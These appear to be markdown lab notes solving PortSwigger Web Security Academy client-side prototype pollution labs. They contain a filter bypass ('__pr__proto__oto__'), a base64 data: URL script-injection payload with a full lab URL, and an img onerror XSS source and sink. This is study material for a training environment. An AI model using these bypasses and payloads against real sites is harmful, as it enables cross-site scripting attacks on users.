 2. in source look at the code. note in **searchLoggerFiltered.js**:
```js
function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
```



3. bypass filter with:
```
/?__pr__proto__oto__[foo]=bar
```
in console:
```
> Object.prototype.foo
< 'bar'
```
4. try with alert and see n pop up:
```
/?__pr__proto__oto__[transport_url]=alert()
```

5. in devtools/elements look for payload reflection:
```
<script src="alert()"></script>
```

6. change **alert()** into *data protocol* based payload (which allows base64 encoding): **data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==** (from [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#bypass-word-blacklist-with-code-evaluation)


final payload:
```
https://0a590058032b61ccc35d492b004a003b.web-security-academy.net/?__pr__proto__oto__[transport_url]=data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==
```
#


[Prototype pollution via browser APIs](https://portswigger.net/web-security/prototype-pollution/browser-apis)


**source:**
```
?__proto__[headers][x-username]=<img/src/onerror=alert(1)>
```
**sink:**
```
message.innerHTML = `My products. Logged in as <b>${username}</b>`;
```


# [1. Lab: Client-side prototype pollution via browser APIs](https://portswigger.net/web-security/prototype-pollution/browser-apis/lab-prototype-pollution-client-side-prototype-pollution-via-browser-apis)
